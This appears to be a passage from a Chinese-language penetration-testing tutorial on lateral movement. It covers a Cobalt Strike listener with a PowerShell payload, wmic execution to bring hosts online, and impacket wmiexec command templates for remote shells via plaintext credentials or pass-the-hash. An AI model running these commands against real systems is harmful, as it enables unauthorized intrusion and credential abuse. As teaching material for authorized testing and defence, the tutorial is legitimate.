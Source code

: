 设置监听器，并选择Powershell作为载荷

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t010c64b056dcee3603.png)

在客户机上执行wmic命令，让指定机器上线CS

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t014b87a7d765358ee1.png)

**<a class="reference-link" name="impacket-wmiexec.py"></a>impacket-wmiexec.py**

> ***注意**：请按照实际情况选择wmiexec.py的参数。*

```
"注意：根据impacket的版本不同，依赖的python版本也不同，这里笔者使用最新版本impacket，依赖python3。"
"注意：遇到特殊字符使用\进行转移，例如123@456，转义后：123\@456"
python3 wmiexec.py  用户名:密码@目标IP
python3 wmiexec.py  域名/用户名:密码@目标IP    #哈希传递获得shell
python3 wmiexec.py  域名/用户名:密码@目标IP    "ipconfig"   #执行命令
python3 wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP    #哈希传递获得shell
python3 wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP "ipconfig"   #执行命令
```

使用账号密码远程工作组机器

[![](https://p2.ssl.qhimg.com/t0166ae18e21132b094.png)](https://p2.ssl.qhimg.com/t0166ae18e21132b094.png)

使用账号密码远程域机器

[![](https://p2.ssl.qhimg.com/t01b6f4c3c296d7b34b.png)](https://p2.ssl.qhimg.com/t01b6f4c3c296d7b34b.png)

使用hash远程工作组机器

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01191185fb38d5eab1.png)

使用hash远程域机器

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01638ed8d4ea918ef2.png)

> ***注意**：wmiexec 使⽤445端⼝传回显。*

**<a class="reference-link" name="impacket-wmiexe.exe"></a>impacket-wmiexe.exe**

```
wmiexec.exe test1.com/win16:win16@10.10.0.10 -dc-ip 10.10.0.10
```

使用账号密码远程域机器

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t010b1bf100a1a4a463.png)
